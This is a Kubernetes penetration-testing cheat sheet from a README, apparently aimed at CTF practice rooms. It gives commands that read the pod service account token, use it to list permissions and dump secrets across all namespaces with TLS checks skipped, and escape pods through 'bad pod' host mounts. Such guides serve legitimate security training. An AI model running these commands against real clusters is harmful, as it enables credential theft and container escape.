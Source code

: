 # Kubernetes Exploit Hub

## Description
These are a collection of methods and tools I've found useful on pentesting Kubernetes Clusters. 

### Discovery and Enumeration
**Discovery with nmap (Sample with IP Address):**

```
nmap -A -T4 -p- -oA Kubernetes1 10.10.197.28
```

Pay attention to DNS names from NMAP scan outputs as they can give away that you are working with a Kubernetes environment when you have a cluster operating on a non standard port. 

**Discovering Kubernetes Clusters with Kube Hunter:**

Software URL:https://github.com/aquasecurity/kube-hunter

Installation:
```
sudo pip3 install kube-hunter
```

Example Output:

[Insert Screenshot Here]

### Initial Exploitation

After Gaining access to a cluster. Usually by misconfiguration with the application that it is hosting. PHP, Grafana, etc.

**Service Account Token Location**
```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

Dropping out token and exporting it with your current terminal session:
```
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

```
export TOKEN={TOKEN]
```

Example Output:

[Insert Screenshot Here]

**Checking your permissions with the current token that you have(remote command):**
```
kubectl --server https://serverip:port --token=$TOKEN auth can-i --list
```

If cluster is running a self sign certificate then add insecure tls to your command:
```
kubectl --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify auth can-i --list
```
**Checking your permissions with the current token that you have (Local Commands):**

This is basically the same thing as above with the exception that you are dropping the --server command

ProTip: If you need to do file transfers to a pod. Its very possible you may be in a pod without wget or curl commands. Normally I am only transfer kubectl and a poisoned pod of some sort. Pwncat-cs has been an excellent choice not only from an upload standpoint but you will have a nice full tty session to work with as well. 

Github: https://github.com/calebstewart/pwncat

Installation:

```
pip install pwncat-cs
```

Install with venv (What I would recommend so you don't impact other projects with python version dependicies on your attack box.) 

```
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```

Check Permissions:
```
kubectl --token=$TOKEN auth can-i --list
```

**Checking out what PODS are running**
(Remote):
```
kubectl get pods --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl get pods --token=$TOKEN
```
**Get POD Configurations**

This is useful if you need to produce an image of the same type with a posioned pod for later. 

(Local):
```
./kubectl get pod php-deploy-6d998f68b9-wlslz --token=$TOKEN -o yaml
```
**Hunting for API's and getting secrets from them**

Get API's

(Remote):
```
kubectl api-resources --server https://ip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl api-resources --token=$TOKEN --insecure-skip-tls-verify
```

Get namespaces from within API Example is through a API called "secrets":

(Remote):
```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets --all-namespaces
```

(Local):
```
kubectl --token=$TOKEN secrets --all-namespaces
```

Pull up YAML output of name/namespaces(example for flag3):

```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets flag3 -n kube-system -o yaml
```

### Escaping with bad pods

URL Reference: https://github.com/BishopFox/badPods

**Tips and Tricks with bad pods:**

If Isolated from internet include this in your yaml config:

```
imagePullPolicy: IfNotPresent
```

Always make note of your mount point when breaking out from a pod. This will be in your yaml config of your bad pod. For example this will make your mount point at /host:

```
volumeMounts:
    - mountPath: /host
      name: noderoot
```
## Penetration Testing Resources on Kubernetes

**Try Hack Me Rooms:**

Insekube: https://tryhackme.com/room/insekube

Frank & Herby make an app: https://tryhackme.com/room/frankandherby

Frank and Herby try again: https://tryhackme.com/room/frankandherbytryagain

PalsForLife: https://tryhackme.com/room/palsforlife

Kubernetes for Everyone: https://tryhackme.com/room/kubernetesforyouly

Island Orchestration: https://tryhackme.com/room/islandorchestration

**Hack The Box rooms**

Unobtainium: https://app.hackthebox.com/machines/Unobtainium
